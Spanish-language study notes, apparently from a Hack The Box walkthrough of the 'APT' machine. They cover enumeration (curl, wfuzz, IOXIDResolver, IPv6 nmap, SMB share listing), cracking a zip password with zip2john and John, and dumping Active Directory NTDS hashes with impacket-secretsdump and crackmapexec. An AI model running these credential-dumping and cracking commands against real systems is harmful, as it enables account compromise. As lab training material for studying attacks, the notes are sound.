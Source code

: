 # HTB APT Machine

CURL para  ver las cabeceras

```
curl -s -X GET http://10.129.96.60 -I
s Silent 
X indicar tipo de peticion 
I solo para mostrar las cabeceras

```

WFUZZ puedes usar una lista de extenciones definidas 

```
wfuzz -c --hc=404 -t 200 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,zip-php-asp-aspx http://127.0.0.1:8081/FUZZ.FUZ2Z

```


# ¿Qué es msrpc.exe en mi computador?

> Es la implementación de Microsoft (MS) del RPC (remote procedure call), el cual es parte del subconjunto POSIX de Windows.

# IOXIDResolver port 135

Ayuda a ver si se puede obtener la ipv6 de la maquina por e


```
python3 IOXIDResolver.py -t 10.129.96.60

Ver si la ipv6 responde

ping6 dead:beef::b885:d62a:d679:573f

```

# NMAP IPv6

```
nmap -sC -p53,80,88,135,389,445,464,593,636,5985,9389,47001,49664,49665,49666,49667,49669,49670,49673,49689,52968 -6 dead:beef::b885:d62a:d679:573f -oN targetedipv6
```
# Crackmapexec ipv6

Para usar esta herramienta solo pasa la ipv6 y listo

```
crackmapexec smb dead:beef::b885:d62a:d679:573f

```


# Puertos Abiertos 

Los servicios que se pueden ver y que quiza seria bueno memorizar son:

```
88 Kerberos
389 LDAP
445 SMB
5985 Servicio de Administracion remota de Windows( Si se tuviera credenciales validas podriamos suponer que el usario
es parte del grupo " Remote Managment Users y podriamos conectarnos con evilwinrm) igual se puede hacer con cme

```

## 445 

Para enlistar los recursos compartidos usamos 

### cme

```
crackmapexec smb dead:beef::b885:d62a:d679:573f --shares

```

Con el comando anterior no arroja nada pero probaremos con smbclient

### smbclient

Nombre de la maquina apt 

```
smbclient -L apt/htb.local -N  

```

### Conectarse a un recurso compartido

```
smbclient //htb.local/backup -N
dir 
get archivoadescargar.zip
```

Usando el comando file para ver si realmente es un zip ( recuerda usa los files signatures) para saber el tipo de archivo

```
file backups.zip

```

## 7z Checar que hay dentro 

Para checar dentro usa la "l" si te das cuenta como los comandos que se le pasan a 7z no tienen -

```
7z l backup.zip 

```

Lista lo que hay dentro.

Para descifrar un password primero se saca el hash 

```
zip2john

```
 Ese hash se le pasa a John The Ripper
 
 ```
 john -w:/usr/share/wordlists/rockyou.txt hash
 
 ```
 

# NTDS DUMPEAR hashes 

> Un controlador de dominio es miembro de un único sitio y se representa en el sitio mediante un objeto de servidor Active Directory Domain Services (AD DS). Cada objeto de servidor tiene un objeto NTDS Configuración que representa el controlador de dominio de replicación en el sitio

Cuando se compromete un dominio  se suele dumpear el contenido de NTDS ( en local se dumpea la SAM y el SYSTEM para listar los hashes de los usuarios a nivel local con esos hashes puedes aplicar pass the hash en caso de que aplique y que sea priviligeado el usuario).

Pero volvemos cuando comprometes un controlador de dominio puedes dumpear el NTDS.dir y el SYSTEM para dumpear todos los hashes de los usuarios del directorio activo

```
reg save HKLM\system system.backup
```

## Alternativa cme y con impacket-secretsdump.py

Para esta tenemos que tener credenciales validas de un domain admin.***Importante el kali se usa impacket-packete*** para llamar a secretsdump.py se hace asi:

```
impacket-secretsdump -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL
rackmapexec smb apt -u 'domainadmin' -p 'password' --ntds vss # Intentarra volvarte todos lo hashes a nivel de dominio


```

### sponge 

para evitar que destruyas el archivo recordar 

```
cat hashes | grep " lo que sea " > hashes # destruye el archivo
cat hashes | grep " lo que sea " >> hashes # destruye el archivo poner todo y lo que grepeamos al final
cat hashes | grep " lo que sea " | tee # tampcoo hace lo que queremos por jugar con el mismo archivo
cat hashes | grep " lo que sea " | sponge hashes # este si hace la operacion remplaza lo que queremos y todo lo deja en el mismo archivo


```










